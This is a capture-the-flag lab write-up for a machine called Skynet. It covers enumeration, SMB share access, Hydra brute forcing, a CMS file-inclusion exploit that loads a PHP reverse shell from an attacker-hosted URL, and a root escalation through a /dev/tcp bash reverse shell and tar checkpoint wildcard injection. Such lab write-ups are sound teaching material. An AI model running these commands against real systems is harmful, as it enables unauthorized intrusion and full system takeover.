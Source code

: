# Skynet

## Nmap Scan
- Ran scan against target machine
  `nmap -sS -A -O -p- 10.10.137.142`

  ![Nmap Scan Results](screenshots/2022-09-04-12-34-35.png)

- Ran DirBuster to find directories

    ![DirBuster Results](screenshots/2022-09-04-12-35-30.png)

- Ran `smbmap` to find smb shares

    ![smbmap results](screenshots/2022-09-04-12-46-32.png)

- Found the `anonymous` share with READ ONLY access - attempt to connect to it

    ![SMB share connect](screenshots/2022-09-04-12-47-40.png)

- Download a copy of the found `.txt` files 

    ![Getting a copy of txt files](screenshots/2022-09-04-12-49-36.png)

- The `log1.txt` has what looks like a list of password. With this we can use BurpSuite to capture requests and hydra to brute force the site.

    ![Burp Suite Request Capture](screenshots/2022-09-04-13-04-08.png)

- Use Hydra to attempt to Brute Force

    ![Hydra Brute Force](screenshots/2022-09-04-13-15-58.png)

- From this we get the login and are able to login to the user `milesdyson` webmail. 
- Found an email that contains a password for a samba share, use that to login to the `milesdyson` samba share

- Found a file named `important.txt` and got a copy of that 
- From that we get a hidden directory, used `DirBuster` against this to find this admin page

    ![CMS Admin page](screenshots/2022-09-04-13-26-59.png)

- Search for a cuppa vulnerability using `searchsploit`

    ![Searchsploit Results](screenshots/2022-09-04-13-31-24.png)

- Used the exploit against the target and was able to get the `/etc/passwd` file

    ![/etc/passwd file](screenshots/2022-09-04-13-32-02.png)

- This shows that we can perform Local File Inclusion. Pulled this attack off by following these steps:
  1. Grabbed a `php-reverse-shell.php` from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
  2. Made appropriate changes to IP and Port information
  3. Made this available using `python -m http.server`
  4. Started a listener using `nc -nlvp 4445`
  5. Adapted the exploit URL to my scenario (http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?)
  6. Looked for the flags

    ![Shell](screenshots/2022-09-04-14-00-36.png)

- Followed these steps to get a root shell - create a listener using `nc -nlvp 6666`

```
$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
```